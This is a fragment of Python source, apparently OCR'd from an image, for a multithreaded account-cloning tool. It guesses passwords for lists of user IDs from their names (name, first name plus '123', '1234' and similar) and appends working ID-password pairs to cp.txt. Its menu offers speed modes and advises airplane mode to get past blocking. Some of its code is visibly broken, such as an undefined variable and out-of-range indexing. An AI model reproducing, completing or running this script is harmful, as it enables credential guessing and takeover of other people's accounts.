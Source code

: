 				print('\r\033[1;37m[\033[1;32mKing-OK\033[1;37m]\033[1;32m %s | %s      ' % (user,pw))
				wrt = '%s - %s' % (user,pw)
				ok.append(wrt)
				open('cp.txt','a').write('%s\n' % wrt)
				break
			else:
				continue
		loop += 1
	def __pler__(self):
		os.system("clear")
		print(banner)
		print ("\033[1;37m [1] \033[1;36mMETHOD FAST ")
		print ("\033[1;37m [2] \033[1;36mMETHOD NORMEL ")
		print ("\033[1;37m [3] \033[1;36mMETHOD MEDIUM ")
		print(50*"\033[1;97m_")
		yan = input('\033[1;37m[+] \033[1;36mCHOOSE OPTION \033[1;31m: \033[1;32m')
		if yan == '':
			print('\Choose Error ')
			exit()
		elif yan in ('1', '01'):
			os.system("clear")
			print(banner)
			time.sleep(1)
			print('\033[1;37m[+]\033[1;33m File CLONING CP/OK IDS MIX ')
			print('\033[1;37m[+]\033[1;36m TOTAL IDS \033[1;91m: \033[1;32m%s ' % len(self.id))
			print('\033[1;37m[+]\033[1;36m PROCESS HAS BEEN STARTED')
			print(50*"\033[1;97m_")
			print('      \033[1;97m\033[1;41m [ IF  NO RESULT USE AIRPLANE MODE ] \033[0m\033[1;93m')
			print(50*"\033[1;97m_")
			with ThreadPoolExecutor(max_workers=20) as (_ngentot_gratis_):
				for yntkts in self.id:
					try:
						uid, name = yntkts.split('|')
						xz = name.split(' ')
						if len(xz) == 1:
							pwx = [Name, xz[0]+xz[1], xz[0]+"123", xz[0]+"12345", xz[0]+'1234']
						elif len(xz) == 2:
							pwx = [name, xz[0]+xz[1], xz[0]+"123", xz[0]+"12345", xz[0]+'1234']
						elif len(xz) == 3:
							pwx = [name, xz[0]+xz[1], xz[0]+"123", xz[0]+"12345", xz[0]+'1234']
						elif len(xz) == 4:
							pwx = [name, xz[0]+xz[1], xz[0]+"123", xz[0]+"12345", xz[0]+'1234']
						else:
							pwx = [name, xz[0]+xz[1], xz[0]+"123", xz[0]+"12345", xz[0]+'1234']
						_ngentot_gratis_.submit(self.__mbasic__, uid, pwx)
					except:
						pass
			os.remove(self.apk)
			hasil(ok,cp)
		elif yan in ('2', '02'):
			os.system("clear")
			print(banner)
			time.sleep(1)
			print('\033[1;37m[+]\033[1;33m File CLONING CP/OK IDS MIX ')
			print('\033[1;37m[+]\033[1;36m TOTAL IDS \033[1;91m: \033[1;32m%s ' % len(self.id))
			print('\033[1;37m[+]\033[1;36mKing PROCESS HAS BEEN STARTED')
			print(50*"\033[1;97m_")
			print('      \033[1;97m\033[1;41m [ IF  NO RESULT USE AIRPLANE MODE ] \033[0m\033[1;93m')
			print(50*"\033[1;97m_")
			with ThreadPoolExecutor(max_workers=25) as (_ngentot_gratis_):
				for yntkts in self.id:
					try:
						uid, name = yntkts.split('|')
						xz = name.split(' ')